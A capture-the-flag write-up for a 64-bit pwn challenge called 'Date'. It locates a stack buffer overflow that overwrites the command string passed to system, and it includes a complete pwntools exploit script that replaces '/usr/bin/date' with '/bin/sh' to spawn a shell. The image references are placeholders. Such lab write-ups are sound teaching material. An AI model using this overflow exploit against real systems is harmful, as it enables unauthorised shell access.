







# Date

```
Description
What's the date?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:



So all protections are enabled and its an 64 bit binary. Lets decompile it in ghidra:



We can see there are values stored on the stack in variables and our input starts at `local_d8` pointing to a variable. We can input 0x80 charachters into fgets. We can also see that system is called with the address at `local_98`. Thats pointing to `/usr/bin/date`. So we can overflow it and change it to `/bin/sh`. 

So lets open it in gdb, we set a breakpoint at system and create a pattern of 0x80 chars:



Run the program and send the pattern.
It stops at our breakpoint and we can see we overflowed the value thats put into rdi for the system call:



We will find the offset, its 64:



Lets create a pattern of 64 chars and put 8 B after it to see if we are good:



And we are, so lets create our exploit script:

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'critical'

# Start program
io = start()

# Payload

offset = 64

payload = b'A' * 64
payload += b'/bin/sh\x00'

# Send the payload
io.sendlineafter(b'date?\n', payload)

# Got Shell?
io.interactive()

```

Lets run it:



We got our flag!
